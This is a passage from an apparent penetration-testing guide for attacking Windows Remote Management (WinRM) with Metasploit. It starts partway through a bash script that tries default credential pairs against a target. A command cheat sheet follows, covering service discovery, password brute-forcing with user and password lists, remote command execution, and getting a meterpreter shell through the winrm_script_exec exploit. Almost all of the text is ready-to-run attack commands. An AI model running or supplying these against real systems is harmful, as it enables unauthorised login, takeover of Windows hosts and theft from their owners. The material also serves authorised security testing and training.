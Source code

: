 ```bash
# Phase 3: Common Credential Testing
echo "[+] Phase 3: Testing common credentials" | tee -a $LOGFILE
COMMON_CREDS="administrator:password administrator:admin admin:admin guest:guest user:user"
for cred in $COMMON_CREDS; do
    username=$(echo $cred | cut -d: -f1)
    password=$(echo $cred | cut -d: -f2)
    echo "[*] Testing $username:$password" | tee -a $LOGFILE
    msfconsole -x "use auxiliary/scanner/winrm/winrm_login; set RHOSTS $TARGET; set USERNAME $username; set PASSWORD $password; exploit; exit" | grep -E "(Login Successful|LOGIN FAILED)" | tee -a $LOGFILE
done

echo "[+] Automated testing complete. Check $LOGFILE for results" | tee -a $LOGFILE
```

---

## 📊 Quick Command Reference

### **Essential Commands Summary:**

#### **Basic Discovery:**
```bash
nmap -p 5985,5986 target_ip                    # Find WinRM service
msfconsole                                      # Start Metasploit
use auxiliary/scanner/winrm/winrm_auth_methods  # Check authentication
set RHOSTS target_ip                            # Set target
exploit                                         # Run the module
```

#### **Password Attacks:**
```bash
use auxiliary/scanner/winrm/winrm_login         # Password attack module
set USERNAME administrator                      # Single username
set PASSWORD password123                        # Single password
set USER_FILE /path/to/users.txt               # Username list
set PASS_FILE /path/to/passwords.txt           # Password list
set VERBOSE false                              # Reduce output noise
```

#### **Command Execution:**
```bash
use auxiliary/scanner/winrm/winrm_cmd          # Command execution module
set CMD whoami                                 # Command to run
set CMD "dir C:\"                             # Directory listing
set CMD systeminfo                            # System information
```

#### **Getting Full Shell:**
```bash
use exploit/windows/winrm/winrm_script_exec    # Shell exploit
set FORCE_VBS true                             # Force VBS method
exploit                                        # Get meterpreter
getuid                                         # Check privileges
sysinfo                                        # System information
```
